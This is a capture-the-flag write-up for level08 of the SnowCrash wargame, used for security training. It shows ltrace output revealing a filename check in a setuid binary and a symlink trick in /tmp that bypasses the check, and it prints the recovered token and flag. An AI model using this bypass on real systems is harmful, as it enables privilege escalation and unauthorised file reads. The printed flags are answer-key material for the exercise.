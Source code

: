 # level08
## Introduction

Hack by symbol link to redirect target file to another destination.

## Observations

level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token


level08@SnowCrash:~$ ltrace ./level08 
__libc_start_main(0x8048554, 1, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)   = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                     = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
level08@SnowCrash:~$ 




## Final solution
### Get the token
level08@SnowCrash:~$ ln -s ~/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean

### Get the flag
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f




